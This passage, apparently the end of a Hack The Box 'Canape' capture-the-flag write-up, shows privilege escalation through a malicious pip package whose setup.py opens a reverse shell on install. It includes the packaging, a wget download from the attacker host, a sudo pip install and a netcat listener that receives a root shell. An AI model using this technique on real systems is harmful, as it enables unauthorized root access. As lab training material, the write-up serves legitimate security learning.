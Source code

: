 This basically just tells pip to run MyClass at install, which will send us a reverse shell.

Now we'll need to package it.

```
root@kali:~/htb/canape# python setup.py sdist
```

By default it creates a `UNKNOWN-0.0.0.tar.gz` file under `dist`, which we can copy out and rename as `shell.tar.gz` then copy to our victim.

```
homer@canape:~$ wget http://10.10.14.14/shell.tar.gz
--2018-04-27 12:23:05--  http://10.10.14.14/shell.tar.gz
Connecting to 10.10.14.14:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 775 [application/gzip]
Saving to: ‘shell.tar.gz’

shell.tar.gz                  100%[=================================================>]     775  --.-KB/s    in 0s      

2018-04-27 12:23:05 (126 MB/s) - ‘shell.tar.gz’ saved [775/775]
```

Now we can start a netcat listener and run `sudo` with `pip install`.

```
homer@canape:~$ sudo /usr/bin/pip install shell.tar.gz 
The directory '/home/homer/.cache/pip/http' or its parent directory is not owned by the current user and the cache has been disabled. Please check the permissions and owner of that directory. If executing pip with sudo, you may want sudo's -H flag.
The directory '/home/homer/.cache/pip' or its parent directory is not owned by the current user and caching wheels has been disabled. check the permissions and owner of that directory. If executing pip with sudo, you may want sudo's -H flag.
Processing ./shell.tar.gz
Installing collected packages: UNKNOWN
  Running setup.py install for UNKNOWN ...
```

```
root@kali:~/htb/canape# nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.70] 55420
root@canape:/tmp/pip-bz9te7-build#
```

Finished!